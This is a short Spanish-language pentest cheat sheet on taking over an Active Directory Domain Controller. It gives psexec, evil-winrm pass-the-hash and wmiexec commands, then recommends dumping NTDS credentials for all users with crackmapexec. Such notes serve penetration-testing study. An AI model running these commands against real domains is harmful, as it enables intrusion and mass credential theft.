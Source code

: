 # Requisitos
Para ganar acceso al `Domain Controller` debemos disponer de credenciales válidas de un `Administrador del dominio`.

# Realizar Autenticación
Una forma de hacerlo es mediante `psexec`
```
psexec.py <dominio>/<usuario>:<contraseña>@<ip_DC> cmd.exe
```
Ejemplo:
```
psexec.py wizzz.local/Administrador:Passw0rd@192.168.45.130 cmd.exe
```
También podemos ganar acceso si hemos conseguido su `hash` mediante `evil-winrm`
```
evil-winrm -i <ip-DC> -u '<Administrator>' -H '<hash>'
```
Se puede hacer también con otras herramientas como `wmiexec`
```
wmiexec.py <dominio>/<usuario>@<ip> -hashes <hash_ntds>
```

# Recomendaciones
Una vez se compromete el DC es recomendable dumpear el `ntds` de todos los equipos para tener acceso a todos los usuarios del Directorio Activo.
```
crackmapexec smb <ip_DC> -u 'Administrator' -p 'P@$$w0rd!' --ntds vss
```
